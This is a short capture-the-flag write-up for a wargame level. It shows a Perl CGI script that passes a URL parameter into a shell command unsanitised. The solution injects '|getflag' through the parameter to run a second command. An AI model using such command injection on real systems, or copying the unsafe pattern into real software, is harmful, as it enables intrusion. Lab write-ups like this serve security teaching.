

# Level04
## Description
The level 04 user has a file **level04.pl**,  which user is `flag04`.
The .pl mean perl language , the perl code is also on localhost:4747.

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Solution
- We need to use the subfunction x to execute `getflag`.<br>
  We can set arguments in the URL as `http://192.168.56.3:4747/level04.pl?x=`**blabla**.

- We change the value of x as **`http://192.168.56.3:4747/level04.pl?x=|getflag`** which execute `echo |getflag 2>&1`.

- The flag is write in the body of the website.



### Dead end
- Use `./level04.pl x=;/bin/getflag` doesn't give the flag.
